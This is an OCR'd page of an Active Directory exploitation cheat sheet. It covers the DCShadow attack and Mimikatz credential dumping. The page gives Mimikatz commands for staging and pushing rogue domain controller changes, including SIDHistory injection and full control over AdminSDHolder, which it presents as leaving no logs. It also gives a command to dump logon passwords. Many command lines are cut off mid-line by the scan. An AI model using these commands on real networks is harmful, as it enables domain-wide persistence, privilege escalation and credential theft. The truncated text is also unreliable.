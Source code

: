 DCShadow
DCShadow is an attack that masks certain actions by temporarily
imitating a Domain Controller If you have Domain Admin or
Enterprise Admin privileges in a root domain it can be used for
forest level persistence
Optionally as Domain Admin give a chosen user the privileges
required for the DCShadow attack uses SetDCShadowPermissions.ps1 cmdlet
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

24/31

Set-DCShadowPermissions -FakeDC mcorp-student35 -SamAcco

Then from any machine use Mimikatz to stage the DCShadow
attack

# Set SPN for user
lsadump::dcshadow /object:root355user /attribute:service
# Set SID History for user (effectively granting them En
lsadump::dcshadow /object:root355user /attribute:SIDHist
# Set Full Control permissions on AdminSDHolder containe
## Requires retrieval of current ACL:
(New-Object System.DirectoryServices.DirectoryEntry("LDA
## Then get target user SID:
Get-NetUser -UserName student355 | select objectsid
## Finally, add full control primitive (A;;CCDCLCSWRPWPL
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=

Finally from either a DA session OR a session as the user
provided with the DCShadowPermissions before run the
DCShadow attack Actions staged previously will be performed
without leaving logs 😈

lsadump::dcshadow /push

Post Exploitation
Dumping secrets with Mimikatz
# Dump logon passwords
sekurlsa::logonpasswords
# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since i
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/
